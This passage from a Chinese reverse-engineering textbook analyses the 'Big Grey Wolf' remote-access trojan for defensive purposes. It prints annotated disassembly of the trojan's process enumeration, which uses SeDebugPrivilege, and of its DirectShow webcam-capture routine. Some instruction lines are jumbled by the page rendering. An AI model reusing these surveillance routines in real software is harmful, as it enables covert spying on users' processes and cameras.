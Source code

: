 `.text:10011602 push 1 ; int   .text:10011604 push offset Name ; "SeDebugPrivilege"   .text:10011609 mov [esp+24Ch+hModule], esi    .text:1001160D   .text:1001160E stosb   call    adjust_token    ; 调用函数调整令牌权限   .text:10011613 add esp, 8    .text:10011616 push esi ; th32ProcessID   .text:10011617 push 2 ; dwFlags             .text:10011619 call CreateToolhelp32Snapshot ; 创建进程快照   .text:10011669 mov ecx, [esp+24Ch+pe.th32ProcessID] ; 循环开始   .text:1001166D push ecx ; dwProcessId   .text:1001166E push 0 ; bInheritHandle   .text:10011670 push 410h ; dwDesiredAccess   .text:10011675 call ds:OpenProcess ; 打开进程   .text:1001167B mov esi, eax     .text:1001167D mov eax, [esp+24Ch+pe.th32ProcessID]     .text:10011681 test eax, eax     .text:10011683 mov [esp+24Ch+var_238], esi     .text:10011687   .text:1001168D jz   cmp loc_10011774   eax, 4    ;    忽略pid为4的进程   .text:10011690   .text:10011696 jz   cmp loc_10011774   eax, 8    ;    忽略pid为8的进程   .text:10011699 jz loc_10011774     .text:1001169F lea edx, [esp+24Ch+cbNeeded]     .text:100116A3 lea eax, [esp+24Ch+hModule]     .text:100116A7 push edx ; lpcbNeeded   .text:100116A8 push 4 ; cb   .text:100116AA push eax ; lphModule   .text:100116AB push esi ; hProcess   .text:100116AC call EnumProcessModules ; 遍历进程模块列表   .text:100116B1 mov edx, [esp+24Ch+hModule]     .text:100116B5 lea ecx, [esp+24Ch+Filename]     .text:100116BC push 104h ; nSize   .text:100116C1 push ecx ; lpFilename   .text:100116C2 push edx ; hModule   .text:100116C3 push esi ; hProcess   .text:100116C4 call GetModuleFileNameExA ; 获取进程路径   .text:100116F3 push 42h ; uFlags   .text:100116F5 push esi ; uBytes   .text:100116F6 push ebp ; hMem   .text:100116F7 call ds:LocalReAlloc ; 释放空间   .text:10011774 lea ecx, [esp+24Ch+pe]     .text:10011778 push ecx ; lppe   .text:10011779 push edi ; hSnapshot   .text:1001177A call Process32Next ; 遍历下一个进程   .text:1001177F   .text:10011781 test   jnz eax, eax   loc_10011669    ;    循环开始   .text:10011787 mov esi, [esp+24Ch+var_238] ; 循环结束   .text:1001178B push 42h ; uFlags   .text:1001178D push ebx ; uBytes   .text:1001178E push ebp ; hMem   .text:1001178F call ds:LocalReAlloc     .text:10011795 push 0 ; int   .text:10011797 push offset Name ; "SeDebugPrivilege"   .text:1001179C   .text:1001179E mov   call ebx, eax   adjust_token    ;    调用函数调整令牌权限   .text:100117A3 add esp, 8     .text:100117A6 push edi ; hObject   .text:100117A7   .text:100117AD mov   call edi, ds:CloseHandle   edi ; CloseHandle    ;    关闭进程快照   .text:100117AF push esi ; hObject   .text:100117B0 call edi ; CloseHandle ; 关闭进程句柄   `

如代码清单 16-18 所示，该病毒通过 DirectShow 完成视频采集（DirectShow 是微软基于 COM 的流媒体处理的开发包）。

代码清单16-18  摄像头查看代码片段 DllVideo函数实现代码：

`.text:10001E8Blea ecx, [esp+900h+pCreateDevEnum]   .text:10001E8Fpush ecx ; pCreateDevEnum   .text:10001E90push offset stru_100853DC ; riid，IID_ICreateDevEnum   .text:10001E95push 1 ; dwClsContext，CLSCTX_INPROC_SERVER   .text:10001E97push ebx ; pUnkOuter   .text:10001E98push offset stru_1008546C ; rclsid， CLSID_SystemDeviceEnum   .text:10001E9Dcall esi ; CoCreateInstance ; 创建设备枚举COM对象：ICreateDevEnum   .text:10001EB7push ebx ; 参数4：0   .text:10001EB8push ecx ; 参数3：保存对象的地址   .text:10001EB9mov edx, [eax] ; 获取虚表指针   .text:10001EBBpush offset stru_1008545C ; 参数2：CLSID_VideoInputDeviceCategory   .text:10001EC0push eax ; 参数1：this指针   .text:10001EC1mov [esp+910h+var_4], ebx   .text:10001EC8call dword ptr [edx+0Ch]   ; 调用CreateClassEnumerator，创建视频采集设备枚举COM对象   .text:10001EF4push eax ; 参数1:this指针   .text:10001EF5mov ecx, [eax]   .text:10001EF7call dword ptr [ecx+14h] ; 调用IEnumMoniker->Reset   .text:10001EFAmov eax, [esp+900h+pEnum]   .text:10001EFElea ecx, [esp+900h+var_8C4]   .text:10001F02push ecx   .text:10001F03lea ecx, [esp+904h+pMoniker2]   .text:10001F07mov edx, [eax]   .text:10001F09push ecx ; 参数3：保存对象的地址   .text:10001F0Apush 1 ; 参数2：1   .text:10001F0Cpush eax ; 参数1：this指针   .text:10001F0Dcall dword ptr [edx+0Ch]   ; 调用IEnumMoniker->Next，获取   ; IMoniker接口，循环枚举   .text:10001F19mov eax, [esp+904h+pMoniker2]   .text:10001F1Dlea ecx, [esp+904h+var_8D4]   .text:10001F21push ecx   .text:10001F22push offset unk_100854DC   .text:10001F27mov edx, [eax]   .text:10001F29push ebx   .text:10001F2Apush ebx   .text:10001F2Bpush eax   .text:10001F2Ccall dword ptr [edx+36] ; 调用IMoniker->BindToStorage   `

# 16.6 本章小结

本章的学习重点是将逆向技术应用于病毒程序分析。正所谓“知己知彼，百战不殆”，要想反病毒，首先就要清楚病毒的实现原理，这样才能技高一筹。有了对大灰狼远控木马的分析，读者可以根据病毒的实现原理，编写对应的修复、防御工具，制作针对大灰狼远控木马的专杀软件。
